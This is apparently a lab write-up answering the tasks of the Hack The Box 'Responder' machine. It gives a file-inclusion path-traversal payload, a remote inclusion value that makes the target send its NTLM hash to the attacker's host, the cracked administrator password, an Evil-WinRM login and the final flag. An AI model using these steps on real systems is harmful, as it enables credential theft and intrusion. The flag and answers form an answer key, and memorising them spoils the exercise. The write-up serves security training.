









# Responder

Responder is a very easy windows machine on Hack The Box Starting Point Tier 1 that focuses on remote file inclusion vulnerabilities, login credential theft, and weak credentials using Responder, John the Ripper, and Evil-WinRM.

## Task 1

**When visiting the web service using the IP address, what is the domain that we are being redirected to?**

> unika.htb

We use the `curl` command with the `-L` flag to follow the redirect:

## Task 2

**Which scripting language is being used on the server to generate webpages?**

> php

We use the `curl` command with the `-I` flag to get the header:

## Task 3

**What is the name of the URL parameter which is used to load different language versions of the webpage?**

> page

We try using a browser to visit `http://unika.htb`, but get a server not found error.

The `/etc/hosts` file maps IP addresses with hostnames. We can add a line to the `/etc/hosts` file mapping the website IP address to `unika.htb`.

Now the website appears correctly in our browser:

Upon looking at the website, we notice a navigation pane in the top right corner. We see that clicking on the `EN` button gives us options to change the website language to `FR` and `DE`. Clicking on the `FR` button changes the website language to French and redirects us to `http://unika.htb/index.php?page=french.html`. Clicking on the `DE` button changes the website language to German and redirects us to `http://unika.htb/index.php?page=german.html`. When the website language is changed to both French and German, the website uses the URL parameter `page` to load a different language version of the web page.

## Task 4

**Which of the following values for the `page` parameter would be an example of exploiting a Local File Include (LFI) vulnerability: "french.html", "//10.10.14.6/somefile", "../../../../../../../../windows/system32/drivers/etc/hosts", "minikatz.exe"**

> ../../../../../../../../windows/system32/drivers/etc/hosts

## Task 5

**Which of the following values for the `page` parameter would be an example of exploiting a Remote File Include (RFI) vulnerability: "french.html", "//10.10.14.6/somefile", "../../../../../../../../windows/system32/drivers/etc/hosts", "minikatz.exe"**

> //10.10.14.6/somefile

## Task 6

**What does NTLM stand for?**

> New Technology LAN Manager

## Task 7

**Which flag do we use in the Responder utility to specify the network interface?**

> -I

We use Responder on the `tun0` interface:

## Task 8

**There are several tools that take a NetNTLMv2 challenge/response and try millions of passwords to see if any of them generate the same response. One such tool is often referred to as `john`, but the full name is what?.**

> john the ripper

## Task 9

**What is the password for the administrator user?**

> badminton

After launcing Responder, we exploit a remote file inclusion vulnerability and visit `http://unika.htb?page=//{OUR IP}/somefile`. The Responder machine attempts to access a file on an SMB server located on our machine and the Responder utility allows us to steal their NTLM Hash user credentials.

Next we use the `wget` command to download the [rockyou.txt wordlist](https://github.com/josuamarcelc/common-password-list/raw/refs/heads/main/rockyou.txt/rockyou_1.txt) as a file called `wordlist.txt`. Then we use John the Ripper with our downloaded wordlist:

## Task 10

**We'll use a Windows service (i.e. running on the box) to remotely access the Responder machine using the password we recovered. What port TCP does it listen on?**

> 5985

## Flag

> ea81b7afddd03efaa0945333ed147fac

We login to the Evil-WinRM shell with our stolen credentials. Then we view the contents the `flag.txt` file:

